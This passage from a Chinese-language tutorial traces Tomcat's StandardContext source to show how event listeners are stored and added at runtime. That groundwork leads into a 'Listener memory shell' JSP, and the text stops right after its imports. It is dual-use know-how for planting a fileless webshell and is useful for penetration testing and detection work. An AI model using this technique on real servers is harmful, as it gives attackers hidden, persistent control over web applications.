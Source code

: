 ```plain
Object instances[] = getApplicationEventListeners();
```

查看此函数

```plain
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

所以listener存放在applicationEventListenersList属性中，所以在StandardContext中找到能够向applicationEventListenersList添加listener的方法  
方法1：

```plain
/**
 * Add a listener to the end of the list of initialized application event listeners.
 *
 * @param listener The listener to add
 */
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

方法2：

```plain
/**
 * {@inheritDoc} Note that this implementation is not thread safe. If two threads call this method concurrently, the
 * result may be either set of listeners or a the union of both.
 */
@Override
public void setApplicationEventListeners(Object listeners[]) {
    applicationEventListenersList.clear();
    if (listeners != null && listeners.length > 0) {
        applicationEventListenersList.addAll(Arrays.asList(listeners));
    }
}
```

第二个问题：event如何构造？在fireRequestInitEvent方法中由如下代码构造

```plain
ServletRequestEvent event = new ServletRequestEvent(getServletContext(), request);
```

### 5.4 Listener内存马

listenMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 14:41
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%!
```